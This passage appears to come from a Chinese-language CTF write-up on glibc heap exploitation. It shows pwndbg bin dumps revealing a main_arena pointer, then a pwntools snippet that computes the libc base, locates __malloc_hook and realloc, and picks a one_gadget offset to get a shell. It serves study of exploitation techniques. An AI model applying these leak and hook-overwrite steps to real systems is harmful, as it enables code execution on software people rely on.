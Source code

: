 ```c
0xd0 [ -9]: 0x0
0xe0 [ -1]: 0
0xf0 [127]: 0x0
0x120 [ 97]: 0x0
0x130 [ 97]: 0x0
0x140 [ 97]: 0x0
0x150 [ 97]: 0x0
0x160 [ 97]: 0x0
0x170 [ 97]: 0x0
0x180 [ 97]: 0x0
0x190 [ 97]: 0x0
0x1a0 [ 97]: 0x0
0x1b0 [ 97]: 0x0
0x1c0 [ 97]: 0x0
0x1d0 [ 97]: 0x0
0x1e0 [ 97]: 0x0
0x1f0 [ 97]: 0x0
0x200 [ 97]: 0x0
0x210 [ 97]: 0x0
0x220 [ 97]: 0x0
0x230 [ 97]: 0x0
0x240 [ 97]: 0x0
0x250 [ 97]: 0x0
0x260 [ 97]: 0x0
0x270 [ 97]: 0x0
0x280 [ 97]: 0x0
0x290 [ 97]: 0x0
0x2a0 [ 10]: 0x0
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x555555757000 —▸ 0x7ffff7dcfca0 (main_arena+96) ◂— 0x555555757000
smallbins
empty
largebins
empty
pwndbg> 
```

这样就可以得到libc的地址。

## 泄露libc的基地址
```python
libc_base = u64(p.recvuntil('\n', drop = True).ljust(8, '\x00')) - 0x3ebca0
print hex(libc_base)
malloc_hook = libc_base + libc.sym['__malloc_hook']
realloc = libc_base + libc.sym['__libc_realloc']
one_gadget=[0x4f365,0x4f3c2,0x10a45c]
one = libc_base + one_gadget[2]
```
